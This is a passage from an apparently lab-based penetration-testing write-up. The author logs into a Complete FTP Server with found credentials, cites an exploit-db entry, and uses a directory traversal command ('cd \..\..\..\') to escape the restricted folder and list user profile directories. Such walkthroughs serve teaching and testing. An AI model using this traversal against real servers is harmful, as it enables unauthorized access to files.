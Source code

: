 [![image](:/90f03029aec549338f73dad0c164c96a "image")](https://www.corelan.be/wp-content/uploads/2010/05/image12.png)

Since FTP is at the top of the list (see TCP Scan), let’s find out if these credentials work :

```
peter@krypt2:~$ ftp 192.168.6.70
Connected to 192.168.6.70.
220-Complete FTP server
220 FTP Server v 3.3.0
Name (192.168.6.70:peter): devil
331 Password required for devil
Password:
230 User devil logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/MyDocuments" is current directory.
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection for listing
dr-xrwx--- 1 admin users              0 May 04 00:10 My Music
dr-xrwx--- 1 admin users              0 May 04 00:10 My Pictures
dr-xrwx--- 1 admin users              0 May 04 00:10 My Videos
226 Transfer complete.
ftp>
```

Ok, credentials work fine.  But there’s not a lot of information that can be found here. It looks like we are stuck in the My Documents folder

```
257 "/MyDocuments" is current directory.
ftp> cd ..
550 CWD: Operation not permitted.
ftp>
```

The server banner returns “Complete FTP server”.  A quick search on exploit-db shows that this FTP server (if we can believe the banner of course) may suffer from a directory traversal vulnerability : [http://www.exploit-db.com/exploits/11973](http://www.exploit-db.com/exploits/11973).

So let’s see if we can break out of the root using the directory traversal vulnerability on this ftp server :

```
ftp> cd \..\..\..\
250 Directory changed to "/MyDocuments/......".
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection for listing
dr-xrwx--- 1 admin users              0 May 04 00:10 AppData
dr-xrwx--- 1 admin users              0 May 04 00:10 Application Data
dr-xrwx--- 1 admin users              0 May 04 00:10 Cookies
dr-xrwx--- 1 admin users              0 Jul 13 2009 Desktop
dr-xrwx--- 1 admin users              0 May 04 00:10 Documents
dr-xrwx--- 1 admin users              0 Jul 13 2009 Downloads
dr-xrwx--- 1 admin users              0 Jul 13 2009 Favorites
dr-xrwx--- 1 admin users              0 Jul 13 2009 Links
dr-xrwx--- 1 admin users              0 May 04 00:10 Local Settings
dr-xrwx--- 1 admin users              0 Jul 13 2009 Music
dr-xrwx--- 1 admin users              0 May 04 00:10 My Documents
dr-xrwx--- 1 admin users              0 May 04 00:10 NetHood
dr-xrwx--- 1 admin users              0 Jul 13 2009 Pictures
dr-xrwx--- 1 admin users              0 May 04 00:10 PrintHood
dr-xrwx--- 1 admin users              0 May 04 00:10 Recent
dr-xrwx--- 1 admin users              0 Jul 13 2009 Saved Games
dr-xrwx--- 1 admin users              0 May 04 00:10 SendTo
```